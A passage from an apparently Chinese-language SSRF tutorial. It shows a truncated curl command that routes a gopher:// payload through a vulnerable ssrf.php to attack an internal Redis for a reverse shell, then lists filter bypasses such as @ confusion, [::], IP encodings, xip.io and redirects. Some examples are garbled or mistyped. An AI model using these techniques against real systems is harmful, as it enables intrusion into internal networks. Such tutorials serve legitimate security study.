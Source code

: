 空白行替换为%0a

结合gopher协议攻击内网redis，使用上边捕获数据的转换结果即可，然后进行反弹shell：

```
curl -v 'http://39.x.x.x:8000/ssrf.php?url=gopher://192.168.x.x:6379/_curl -v
```

反弹成功

4 .利用http/s协议

探测内网主机存活

## SSRF漏洞相关绕过

### 常见绕过方法

**1、@**

http://abc@127.0.0.1 

实际上是以用户名abc连接到站点127.0.0.1，同理

 http://8.8.8.8@127.0.0.1:8080、http://127.0.0.1#8.8.8.8

在对@解析域名中，不同的处理函数存在处理差异，如：

http://www.aaa.com@www.bbb.com@www.ccc.com

在PHP的parse_url中会识别www.ccc.com，而libcurl则识别为www.bbb.com

**2.利用[::]**

可以利用[::]来绕过localhost

```
http://[::]:80/  >>>  http://127.0.0.1http://[::]:80/  >>> 
```

**3.添加端口号**

http://127.0.0.1:8080

**4.利用短网址**

[站长工具短网址](http://tool.chinaz.com/tools/dwz.aspx)

**5.利用特殊域名**

127.0.0.1.xip.io，可解析为127.0.0.1

在域名上设置A记录，指向127.0.1

**7.利用进制转换**

127.0.0.1八进制：0177.0.0.1十六进制：0x7f.0.0.1十进制：2130706433

**8.句号**

127。0。0。1  >>>  127.0.0.1

**9.302跳转**
